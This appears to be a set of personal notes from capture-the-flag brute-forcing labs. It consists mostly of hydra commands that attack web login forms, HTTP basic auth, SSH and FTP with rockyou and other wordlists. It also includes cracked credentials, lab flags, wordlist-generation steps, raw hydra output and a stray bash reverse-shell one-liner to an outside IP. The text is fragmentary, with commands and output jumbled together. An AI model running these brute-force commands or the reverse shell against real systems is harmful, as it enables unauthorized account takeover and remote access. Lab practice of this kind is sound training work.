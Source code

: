 ```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt $rhost http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

```


```shell-session
hydra -l Brutus -P /usr/share/wordlists/rockyou.txt 10.10.113.49 -s 80 http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password."

```

https://typhooncon-knowme.chals.io/
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt https://typhooncon-knowme.chals.io/ http-post-form "/login.php:uname=^USER^&pswd=^PASS^:F=<form name='login'"

```

login: b.gates   password: 4dn1l3M!$

---
**Skills Assessment**
`Questions`:When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.
```shell-session
 hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 157.245.37.27 -s 32013 http-get /
```
login: user   password: password
HTB{4lw4y5_ch4n63_d3f4ul7_p455w0rd5}

---
Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?

-> Burpsuit 
user=^USER^&pass=^PASS^
```
hydra -l user -P /usr/share/wordlists/rockyou.txt  -f 157.245.37.27 -s 32013 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"


login: admin   password: 123456

```
login: user   password: harrypotter
HTB{c0mm0n_p455w0rd5_w1ll_4lw4y5_b3_h4ck3d!}

---
```bash
$cupp -i 
Harry
special-characters-end-of-words=Y
LeetMode=Y

$./username-anarchy Harry Potter > user_harry.txt 

hydra -L user_harry.txt -P harry.txt -u -f ssh://46.101.61.42:30971 -t 4

[30971][ssh] host: 46.101.61.42   login: harry.potter   password: H4rry!!!

HTB{4lw4y5_u53_r4nd0m_p455w0rd_63n3r470r}
```
---
```bash
$netstat -antp | grep -i list

$hydra -l g.potter -P rockyou-30.txt -u -f ftp://127.0.0.1

login: g.potter   password: harry

ssh g.potter@IP -p PORT
harry

HTB{1_50l3mnly_5w34r_7h47_1_w1ll_u53_r4nd0m_p455w0rd5}

```

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt
 -P /usr/share/wordlists/rockyou.txt -u -f 188.166.148.4 -s 31100 http-get /
```


`hydra -C wordlist.txt SERVER_IP -s PORT http-get /`

Basic Auth Brute Force - Combined Wordlist

`hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`

Basic Auth Brute Force - User/Pass Wordlists

`hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

Login Form Brute Force - Static User, Pass Wordlist

`hydra -l Brutus -P /usr/share/wordlists/rockyou.txt -u -f ssh://10.10.113.49:22 -t 4`

SSH Brute Force - User/Pass Wordlists

`hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`


bash -i >& /dev/tcp/10.18.23.152/4242 0>&1
FTP Brute Force - Static User, Pass Wordlist
```
$netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   

b.gates@bruteforcing-2-440906-6b8f59d777-jq6vk:~

$hydra -l g.potter  -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-15 13:50:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/
[21][ftp] host: 127.0.0.1   login: m.gates   password: computer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-15 13:50:49

b.gates@bruteforcing-2-440906-6b8f59d777-jq6vk:~
$ftp 127.0.0.1

Connected to 127.0.0.1.
220 (vsFTPd 3.0.3)
Name (127.0.0.1:b.gates): m.gates

```

```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```
